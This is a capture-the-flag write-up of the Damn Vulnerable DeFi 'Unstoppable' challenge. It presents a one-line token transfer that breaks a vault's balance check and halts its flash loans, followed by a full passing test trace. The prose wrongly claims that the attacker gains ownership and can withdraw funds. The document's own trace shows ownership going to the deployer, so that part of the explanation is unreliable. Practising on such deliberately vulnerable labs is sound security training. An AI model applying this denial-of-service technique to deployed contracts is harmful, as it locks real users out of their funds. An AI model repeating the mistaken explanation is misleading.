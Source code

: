 
#  Unstoppable Challenge

## Challenge Overview
This challenge involves exploiting a flashloan vulnerability in the UnstoppableVault contract. The vault offers flash loans with a fee and allows the owner to pause the contract and execute arbitrary changes. The goal is to exploit the flashloan mechanism, triggering an unwanted state change.

##  Smart Contract Breakdown

###  Important State Variables
- `FEE_FACTOR`: The fee for flashloans (5%).
- `GRACE_PERIOD`: The period after which the flashloan fee changes.
- `feeRecipient`: The address to which the flashloan fees are sent.
- `end`: The timestamp that determines the end of the grace period.

###  Critical Functions
- **`maxFlashLoan`**: Returns the maximum amount for a flashloan based on the total assets in the vault.
- **`flashFee`**: Calculates the fee for the flashloan.
- **`flashLoan`**: Executes the flashloan by transferring tokens, calling the borrower's callback, and ensuring the correct fee is returned.
- **`execute`**: Allows the owner to execute arbitrary changes when the contract is paused.
- **`setPause`**: Pauses or unpauses the vault.

### ⚠️ Potential Vulnerability
The vault is vulnerable to a **Denial of Service (DoS) attack** via the flashloan function. An attacker can trigger a failure in the `flashLoan` function, causing the vault to enter a paused state and preventing further flashloans.

##  Vulnerability Explained
The vulnerability occurs when the `flashLoan` function fails due to an invalid state (e.g., an incorrect balance). If this happens, the vault is paused, and ownership is transferred to the attacker. This results in the vault being stuck in a paused state, rendering the flashloan feature unusable.

##  Exploit Strategy
1. **FlashLoan Attack**: The attacker initiates a flashloan with an invalid amount or token to trigger the revert condition in the `flashLoan` function.
2. **Vault Pause**: Upon failure, the vault enters a paused state, preventing any further flashloans.
3. **Ownership Transfer**: The attacker gains control of the vault by transferring ownership, allowing them to alter the contract or withdraw funds.

##  Exploit Code (Solidity)

```solidity
function test_unstoppable() public checkSolvedByPlayer {
    // DOS attack by using an external call to the vault to stop the flashloan
    token.transfer(address(vault), 2);
}
```
### Proof of exploit 

```yaml
Ran 1 test for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_unstoppable() (gas: 74607)
Traces:
  [74607] UnstoppableChallenge::test_unstoppable()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [13251] DamnValuableToken::transfer(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2)
    │   ├─ emit Transfer(from: player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], to: UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], amount: 2)
    │   └─ ← [Return] true
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [0] VM::prank(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   └─ ← [Return]
    ├─ [0] VM::expectEmit()
    │   └─ ← [Return]
    ├─ emit FlashLoanStatus(success: false)
    ├─ [33550] UnstoppableMonitor::checkFlashLoan(100000000000000000000 [1e20])
    │   ├─ [593] UnstoppableVault::asset() [staticcall]
    │   │   └─ ← [Return] DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b]
    │   ├─ [9016] UnstoppableVault::flashLoan(UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 100000000000000000000 [1e20], 0x)
    │   │   ├─ [802] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000002 [1e24]
    │   │   ├─ [802] DamnValuableToken::balanceOf(UnstoppableVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000002 [1e24]
    │   │   └─ ← [Revert] InvalidBalance()
    │   ├─ emit FlashLoanStatus(success: false)
    │   ├─ [9287] UnstoppableVault::setPause(true)
    │   │   ├─ emit Paused(account: UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5])
    │   │   └─ ← [Stop]
    │   ├─ [5379] UnstoppableVault::transferOwnership(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   │   ├─ emit OwnershipTransferred(previousOwner: UnstoppableMonitor: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], newOwner: deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946])
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [518] UnstoppableVault::paused() [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertTrue(true, "Vault is not paused") [staticcall]
    │   └─ ← [Return]
    ├─ [573] UnstoppableVault::owner() [staticcall]
    │   └─ ← [Return] deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946]
    ├─ [0] VM::assertEq(deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946], deployer: [0xaE0bDc4eEAC5E950B67C6819B118761CaAF61946], "Vault did not change owner") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.19ms (895.44µs CPU time)

Ran 1 test suite in 2.46s (7.19ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/damn-vulnerable-defi)